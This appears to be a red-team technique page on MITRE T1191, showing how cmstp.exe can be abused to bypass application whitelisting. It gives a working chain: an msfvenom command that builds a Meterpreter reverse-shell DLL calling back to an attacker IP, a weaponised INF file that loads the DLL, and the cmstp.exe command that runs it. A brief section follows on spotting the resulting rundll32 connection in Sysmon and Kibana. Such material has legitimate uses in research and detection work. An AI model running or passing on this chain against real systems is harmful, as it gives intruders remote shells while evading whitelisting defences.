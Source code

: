 ```yaml
---
description: Bypass application whitelisting.
---
```


# T1191: CSMTP Code Execution

## Code

{% code-tabs %}
{% code-tabs-item title="evil.dll" %}
```text
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > /root/tools/mitre/cmstp/evil.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="f.inf" %}
```scheme
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
 
[RegisterOCXSection]
C:\experiments\cmstp\evil.dll
 
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="mantvydas"
ShortSvcName="mantvydas"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

```bash
PS C:\experiments\cmstp> cmstp.exe /s .\f.inf
```

## Observations

Rundll32 is sapwned which then establishes a connection back to the attacker:

![](../.gitbook/assets/cmstp-rundll32.png)

A very privitive way of hunting for suspicious instances of rundll32 initiating connections would be skimming through the sysmon logs to find any network connections established by rundll32 immediately/soon after it has been spawened by cmstp:

{% code-tabs %}
{% code-tabs-item title="kibana search query" %}
```javascript
cmstp.exe rundll32.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note how the connection was established second after the process creation. This behaviour depends on what the payload is supposed to do, but if the payload is a reverse shell, it usually attempts connecting back immediately upon execution, which is exactly our case:

![](../.gitbook/assets/cmstp-kibana%20%281%29.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1191\",\"type\":\"link\",\"title\":\"CMSTP - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/\",\"type\":\"link\",\"title\":\"AppLocker Bypass – CMSTP\",\"description\":\"CMSTP is a binary which is associated with the Microsoft Connection Manager Profile Installer. It accepts INF files which can be weaponised with malicious commands in order to execute arbitrary cod…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://pentestlab.files.wordpress.com/2018/05/cmstp-metasploit-multi-handler.png\",\"width\":707,\"height\":318,\"aspectRatio\":0.4497878359264498}}" %}



